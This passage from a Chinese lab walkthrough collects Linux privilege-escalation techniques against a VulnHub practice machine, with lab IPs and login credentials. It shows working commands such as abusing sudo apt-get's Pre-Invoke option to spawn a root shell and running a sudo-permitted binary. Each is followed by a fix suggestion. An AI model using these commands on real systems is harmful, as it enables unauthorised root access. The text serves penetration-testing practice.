 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/W-0TgPl_31s7rFOMt5YC7A)

```
title: Linux特权提升技术合集 date: 2020-12-25 12:06:51
```

Linux 提权技术合集

环境情况
----

靶机下载地址：http://www.vulnhub.com/entry/linesc-1,616/

攻击机 IP：192.168.56.105

靶机 IP：192.168.56.117

用户：muhammad 密码：nasef

sudo 查看
-------

```
sudo -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmjI1V0VulANO6gVRXbMob9aSB1NSDhAGX5hciczYibUfk6tzswFZP5UQg/640?wx_fmt=png)

apt-get 权限滥用特权提升
----------------

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmPSoDzuhSIMbOlqxpoGorVeelCIwm107gXUTicTtwibmTwmxHpqmibyUGA/640?wx_fmt=png)

提权完成

修补建议：为适当的文件设置适当的权限。在这种情况下，请修改 / etc / sudoers 降低不必要的权限。

二进制程序权限滥用
---------

该二进制文件有源代码，源代码上面是执行一个 shell 出来。在 sudo 中，这个程序不需要 root 密码即可运行，所以我们使用 sudo 来运行该二进制文件即可提权。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhm7xrk6uB7IlsTYDYqa1tX2libZFpddg24Vpf9qyhBCfLADic5E2MQkGpA/640?wx_fmt=png)

```
sudo ./sudo
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmbyicGibdmEgFKicTCFVeWYjjIDXuibnVaj6S2RxiaYmcScpz7nOiaV6P7Yaw/640?wx_fmt=png)

修补建议：为适当的文件设置适当的权限。在这种情况下，请修改 / etc / sudoers 降低不必要的权限。

ssh 私钥泄露提权
----------
